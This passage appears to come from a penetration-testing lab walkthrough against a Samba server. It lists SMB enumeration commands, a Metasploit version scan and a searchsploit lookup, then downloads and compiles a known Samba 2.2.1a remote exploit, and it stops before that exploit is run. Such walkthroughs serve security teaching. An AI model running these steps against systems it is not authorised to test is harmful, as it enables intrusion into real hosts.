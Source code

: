 ```bash
1. Enum4linux:

enum4linux <TARGET_IP>


2. Smbclient:

smbclient -L //<TARGET_IP>

These tools reveal what shares and files are accessible on the target system.




---

Step 4: Identifying Vulnerabilities

Now, we check which version of Samba is running and look for known vulnerabilities.

1. Using Metasploit to Identify the Version:

Start Metasploit:

msfconsole

Search for a module to detect Samba version:

search smb_version

Use the module and set the target IP:

use auxiliary/scanner/smb/smb_version  
set RHOST <TARGET_IP>  
run


Result: The version is Samba 2.2.1a, which has known exploits.


2. Searching for Exploits:

Use searchsploit to find Samba 2.2.1a vulnerabilities:

searchsploit Samba 2.2.1a

From the results, we choose the 10.c exploit.





---

Step 5: Exploiting Samba

Download the Exploit:

searchsploit -m multiple/remote/10.c

Compile the Exploit:

gcc -o Samba 10.c
```